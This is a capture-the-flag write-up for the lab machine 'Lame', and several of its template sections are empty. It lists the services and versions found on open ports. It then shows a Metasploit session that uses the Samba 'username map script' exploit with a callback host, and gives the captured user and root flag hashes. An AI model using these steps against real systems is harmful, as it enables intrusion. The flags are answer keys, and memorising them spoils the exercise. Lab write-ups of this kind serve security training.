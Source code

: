# Lame

## 1. Overview

### 1.1. Attacks

* 

### 1.2. Tools used

**Enumeration** &rarr; ``.

**Exploitation** &rarr; ``.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash

```

##### 2.1.1.1. Ports

![Lame Ports](_v_images/20201003212147744_9896.png)

* **Port: 21 (ftp)** &rarr; vsftpd 2.3.4
* **Port: 22 (ssh)** &rarr; Open SSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* **Port: 139 (netbios-ssn)** &rarr; Samba smbd 3.X - 4.X
* **Port: 445 (netbios-ssn)** &rarr; Samba smbd 3.0.20-Debian
* **Port: 3632 (distccd)** &rarr; distccd v1

##### 2.1.1.2. Host Details

![Lame Host Details](_v_images/20201003212552432_15255.png)
![Lame Host Script Results](_v_images/20201003212621286_30855.png)

* **OS** &rarr; Linux 2.6.30 / Unix (Samba 3.0.20-Debian)
* **Computer name** &rarr; Lame
* **Smb-Security-Mode**
    * **Message_Signing** &rarr; disabled

Samba looks exploitable.

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `samba Unix (Samba 3.0.20-Debian) exploit`

[[Rapid7] Samba "username map script" Command Execution ](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/samba/usermap_script) > run
```

```bash
cat root/root.txt
92caac3be140ef409e45721348a4e9df

cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

* **Own User** &rarr; `69454a937d94f5f0225ea00acd2e84c5`
* **Own Root** &rarr; `92caac3be140ef409e45721348a4e9df`